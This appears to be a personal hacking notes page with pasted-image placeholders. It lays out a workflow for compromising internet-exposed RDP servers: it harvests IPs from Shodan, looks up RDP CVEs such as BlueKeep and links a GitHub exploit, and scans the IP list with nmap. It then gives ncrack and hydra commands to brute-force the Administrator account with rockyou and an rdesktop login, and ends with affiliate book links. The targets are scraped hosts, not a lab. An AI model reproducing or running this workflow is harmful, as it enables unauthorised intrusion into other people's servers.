 Then save it on a file:

![[Pasted image 20250612164512.png]]

And then just filter out all the Ips out of it:

![[Pasted image 20250612171711.png]]
## Exploiting Path:

**You basically look for the most common CVE in RDP servers and then search a github only tool for it and fetch for it searching through all the ips**

So ask deepseek for the most common CVEs in RDP servers [show cves you have found in shodan]
 
An example of cve: 

>CVE-2019-0708 vulnerability -- github:  https://github.com/davidfortytwo/bluekeep

E.G: ![[Pasted image 20250612173118.png]]

![[Pasted image 20250612172554.png]]

	Look for CVE by nmap scan:

1. nmap -sV --script=rdp-vuln-ms12-020 -p 3389 -iL ip.txt


## Brute Force Server:

```bash
1. ncrack -vv --user Administrator -p /usr/share/wordlist/rockyou.txt rdp://192.168.186.130
```

```bash
2. hydra -l Administrator -P pass.txt rdp://192.168.*.* -V -f -t 4
```

## Join:
```bash
 rdesktop 192.168.10.130 -u Administrator -p Admin123
```


🔗 LINK: 📖 I MIEI LIBRI PREFERITI: Bug Bounty Bootcamp: La guida per trovare e segnalare le vulnerabilità web - [https://amzn.to/4k5RZXB](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbG1GNUhwVjZaWE9RVFdIU3hoY1B5U1RQYnZUQXxBQ3Jtc0ttVkZ5dHJXZHVsU19QNU9icS1EXzBCQng0WEFuMTZNeDIwaEstUXc1cEZydDQ5WURucWVZMVhuUWNPaEZOT1A3bEQwRzFRT0FJRDNvM21QSmV1R1BSbll5LWRfM3UzOGRMUUswMTdFaFJtZ1VIZWZpOA&q=https%3A%2F%2Famzn.to%2F4k5RZXB&v=JlavbZMj6nM) 

Hacking API: Rompere le interfacce di programmazione delle applicazioni web -[https://amzn.to/431CqtW](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbGhQdkVjNEV6QVFUelNoYlVRWmJxbFdsRWFZZ3xBQ3Jtc0tsd01EeE13OFhfb0thSUMwTjZJbTFoZU9aQ25MN2lnUGMwYmozM1AzSEgtS2pleWZmRGs3cmZmcXdPakJ1MEpmQ3NzMG91bkxrSnlCckpfVFBDMURNaWNIdjFEZDlua3JYMHdONWQ2ZU11QzN4Nm50dw&q=https%3A%2F%2Famzn.to%2F431CqtW&v=JlavbZMj6nM) 

Black Hat GraphQL: Attaccare le API di nuova generazione - [https://amzn.to/416zObv](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbXpFYnBVX3VQeEVPVjFaWTE4ZVVRMVRUcUpEd3xBQ3Jtc0trSFI4V3NuUnFBSldxdDdwYlk1RDB2Mll1SVp6V2xBUzY0c05hcG85VWw2VlMxdVFwOEJzR1pLLUFHMUJyVjNmT1laZEpHWWtWOFloMDlNNlJUOWREaGpSeE5MM3lCTjBuYTBxWXpEYUlFZ0gxX3J3UQ&q=https%3A%2F%2Famzn.to%2F416zObv&v=JlavbZMj6nM)
